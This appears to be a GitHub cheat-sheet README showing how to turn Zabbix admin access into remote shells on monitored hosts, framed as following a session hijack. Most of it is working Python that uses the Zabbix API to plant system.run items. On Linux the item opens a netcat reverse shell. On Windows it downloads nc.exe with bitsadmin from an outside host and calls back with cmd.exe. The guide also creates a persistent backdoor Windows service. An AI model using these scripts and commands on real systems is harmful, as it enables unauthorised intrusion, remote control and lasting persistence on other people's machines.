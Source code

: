 # Somehow you've got access to the zabbix admin account or created your own (taking advantage of this [guide](https://github.com/HD421/Monitoring-Systems-Cheat-Sheet/blob/master/Zabbix_session_hijacking.md)). Time for some RCE on the monitored hosts!

In Zabbix we got ability to run remote commands. This will work in the next state of the agent configuration file:
1. The value of the ServerActive parameter is the same as the value of the Server parameter.
2. The Hostname parameter matches the name specified for the host in the Zabbix server's web interface.
3. EnableRemoteCommands = 1 - Enables the launch of commands that the server sends to the agent.
4. Timeout = 30 – Specifies how long we wait for agent. Must be between 1 and 30. (Because of this option we can't get persistent shell)

It is also important to remember that the command length is limited to 255 characters.
As a result, a successful scenario is the addition of a task to create a shell in Zabbix which will be accessible for 30 seconds(in the best scenario) and during his lifetime add an independent persistent shell.

You can use this script and get information about the monitored agents.
```python
from pyzabbix import ZabbixAPI
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
zbx_sessionid= raw_input("enter zbx_sessionid: \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
zapi = ZabbixAPI(api_address)
zapi.login(user, password)
print("Connected to Zabbix API Version %s" % zapi.api_version())
for h in zapi.host.get(output="extend"):
    hostid=h['hostid']
    host=h['host']
    print ("found host: ",host,"hostid: ",hostid)  
```
Result:
<a href="url"><img src="https://image.prntscr.com/image/st11XKYfSneLiSUS5D_Wpg.png" align="justify"></a>

## Shell on Linux agent

Script to spawn the netcat shell:

```python
from pyzabbix import ZabbixAPI, ZabbixAPIException
import sys
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
hostname=raw_input("enter hostname: \n")
# hostid=raw_input("enter hostid: \n")
zapi = ZabbixAPI(api_address)
# Login to the Zabbix API
zapi.login(user, password)
host_name = hostname
hosts = zapi.host.get(filter={"host": host_name}, selectInterfaces=["interfaceid"])
if hosts:
    host_id = hosts[0]["hostid"]
    print("Found host id {0}".format(host_id))
    try:
        item = zapi.item.create(
            hostid=host_id,
            name='netcat_create_reverse_shell',
            key_='system.run["nc 192.168.56.100 4444 -e /bin/bash"]',
            type=0,
            value_type=4,
            interfaceid=hosts[0]["interfaces"][0]["interfaceid"],
            delay=5
        )
    except ZabbixAPIException as e:
        print(e)
        sys.exit()
    print("Added item with itemid {0} to host: {1}".format(item["itemids"][0], host_name))
else:
    print("No hosts found")
```

How it's look:
<a href="url"><img src="https://image.prntscr.com/image/_XY5FGfGQHay0QfjdIA-zQ.png" align="justify"></a>

Connect to our shell:
<a href="url"><img src="https://image.prntscr.com/image/jj3K7VPaQiydQDiKuZnW9w.png" align="justify"></a>

Now you have to gain a foothold in the system and leave the persistent shell.

## Shell on Windows agent

By default, in Windows the agent is installed and started as a service with System privileges.
```python
from pyzabbix import ZabbixAPI, ZabbixAPIException
import sys
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
host_name=raw_input("enter hostname: \n")
# hostid=raw_input("enter hostid: \n")
zapi = ZabbixAPI(api_address) # user='Admin', password='zabbix')
# Login to the Zabbix API
zapi.login(user, password)
# host_name = 'Zabbix_server'
# host_name = "windows host"
hosts = zapi.host.get(filter={"host": host_name}, selectInterfaces=["interfaceid"])
if hosts:
    host_id = hosts[0]["hostid"]
    print("Found host id {0}".format(host_id))
    try:
        item = zapi.item.create(
            hostid=host_id,
            name='netcat_create_reverse_shell',
            key_='system.run["bitsadmin.exe /transfer /download http://192.168.56.100/nc.exe C:\\Temp\\nc.exe && C:\Temp\\nc.exe 192.168.56.100 5555 -e cmd.exe"]',
            type=0,
            value_type=4,
            interfaceid=hosts[0]["interfaces"][0]["interfaceid"],
            delay=30
        )
    except ZabbixAPIException as e:
        print(e)
        sys.exit()
    print("Added item with itemid {0} to host: {1}".format(item["itemids"][0], host_name))
else:
    print("No hosts found")
```

And then...
<a href="url"><img src="https://image.prntscr.com/image/DOFyZ-ASQXGC6j7nfvSZUw.png" align="justify"></a>

Here we also will interfere with 30 sec timeout, so we'll make a permanent shell.

The agent is started as a service - so the file can be changed, it is enough for it to register a task on the server. For example we can create item which will use remote commands to append the necessary lines to the end of the configuration file.
What's about our shell? To do this, try to create a service (rights allow us), which will also raise the tunnel with nc. We will create a command to create the service, save it to a file, and then redirect it to the input nc (file service.txt):

sc create reversencbackdoor binpath= "cmd /C C:\Users\Public\nc.exe 192.168.56.100 6666 -e cmd.exe" type= own start= auto DisplayName= "NC service backdoor"

To manage the service we use the same approach, only the commands will be changed (file service_run.txt):
```bash
sc query reversencbackdoor
sc stop reversencbackdoor
sc start reversencbackdoor
```
As a result:
<a href="url"><img src="https://image.prntscr.com/image/SDUk9Bp2StmUnuGxv2Qt7g.png" align="justify"></a>

To connect, we start listening on port 6666 and start the service, without this the service starts and immediately ends its work.

<a href="url"><img src="https://image.prntscr.com/image/bITGe7b4RgSAAowewkb5Dw.png" align="justify"></a>

At this moment in separate window:

<a href="url"><img src="https://image.prntscr.com/image/TFjahUmCQH6seiBA_78lvw.png" align="justify"></a>

After Zabbix service will cease to exist, we will have a permanent shell from the service, which will connect to 6666 port:

<a href="url"><img src="https://image.prntscr.com/image/jdY7_RTfS6G8UThnmEE-Ug.png" align="justify"></a>

P.S.
Thanks to [Shodin](https://github.com/freeworkaz) for his contribution to this cheatsheet. The latest versions of these scripts can be found [here](https://github.com/freeworkaz/zabbix_test). Also you can watch the explanation [videos](https://www.youtube.com/channel/UC4wr-m-_6kRz2cHkdtRbW2g/videos) for a deeper understanding.
